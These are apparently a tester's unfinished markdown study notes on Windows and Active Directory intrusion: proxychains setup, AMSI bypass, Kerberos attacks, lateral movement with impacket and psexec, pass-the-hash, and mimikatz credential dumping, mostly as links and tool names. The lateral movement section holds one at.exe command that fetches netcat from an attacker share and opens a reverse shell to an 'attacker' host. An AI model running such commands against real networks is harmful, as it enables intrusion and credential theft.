 using socks5

```
nano /etc/proxychains.conf 

sock5 ip port user password

proxychains firefox

```

# AMSI bypass

https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/

 Antimalware Scan Interface (AMSI) standard that allows a developer to integrate malware defense in his application. AMSI allows an application to interact with any anti-virus installed on the system and prevent dynamic, script-based malwares from executing

amsi byoass with a single command:
https://news.sophos.com/en-us/2021/06/02/amsi-bypasses-remain-tricks-of-the-malware-trade/

# looking at ad enumeration

even without an ad user cann connect to a workgroup
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology

## kerberoas attacks
Kerberos
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberos-authentication

# lateral movement

https://hackmag.com/security/lateral-guide/

approach

sieze control over the domain controllers
reach to isolated critical network segments
search for critical information stored in a certain PC

impacket tools
MSRPC - smb via named pipes
psexec.exe - no av risk, legitimate
psexec.py - from impacket or services.py for manual entering of commands
winexe
smbexec.py - just for msrp.py
atexec.py/ at.exe this helps in remote schedule tasks
`at.exe \\target 13:37 "cmd /c copy \\attacker\a\nc.exe && nc -e \windows\system32\cmd.exe attacker 8888"`
reg.exe - writing to registry remotely
dcomexec.py - wmiexec
wmi
sc.exe
winrm - evilwinrm
winrs.exe and powershell
xfreerdp
GP

### Pass the hash

without cracking the password we can get:

![](2022-08-23-06-34-31.png)

kali linux has many pth - pass the hash tools


# dumping credentials with mimikatz

https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/

windows defender credential Guard prevents access to LSASS



![](2022-08-23-06-25-06.png)





what to do
1. get a proxychain access to the machine
2. 


